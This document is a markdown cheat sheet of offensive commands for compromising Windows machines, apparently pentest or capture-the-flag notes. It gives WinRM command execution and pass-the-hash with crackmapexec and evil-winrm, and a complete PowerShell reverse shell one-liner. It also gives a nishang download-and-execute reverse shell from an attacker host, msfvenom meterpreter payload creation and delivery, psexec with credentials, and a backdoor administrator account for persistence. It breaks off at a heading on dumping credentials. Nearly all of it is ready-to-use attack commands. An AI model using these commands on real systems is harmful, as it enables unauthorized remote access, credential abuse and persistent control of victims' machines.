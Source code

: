 # Windows

# Tools

## crackmapexec

- command execution over winrm

```
crackmapexec winrm -u user -p password -x whoami $ip

```

## evil-winrm

- open winrm session with password

```
evil-winrm -i $ip -u user -p password

```

- open winrm session with ntlm hash (pass the hash)

```
evil-winrm -i $ip -u user -H hash

```

# Reverse shell

- Powershell

```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

```

- Reverse shell with nishang Invoke-PowershellTcp

```
powershell iex (New-Object Net.WebClient).DownloadString('<http://your-ip>:your-port/Invoke-PowerShellTcp.ps1')
Invoke-PowerShellTcp -Reverse -IPAddress 10.6.77.211 -Port 4444

```

## Metasploit

- Upgrade shell to meterpreter session

```
# Generate Payload with msfvenom then serve it with SimpleHTTPServer
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o rshell.exe
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST your-ip
set LPORT listening-port
run
python3 -m http.server 8000

```

- Download and execute payload on target machine

```
powershell (New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')

```

- Reverse/Privilege Escalation with credentials

```
python3 /usr/share/doc/python3-impacket/examples/psexec.py domain/user:password@0.0.0.0 cmd.exe

```

- Migrate meterpreter's process

```
use post/windows/manage/migrate

```

# post exploitation consolidation

## create admin user

```
net user h3xit p@ssw0rd /add
net localgroup administrators h3xit /add
net localgroup "remote management users" h3xit /add

```

# tools

## evil-winrm

### dump credentials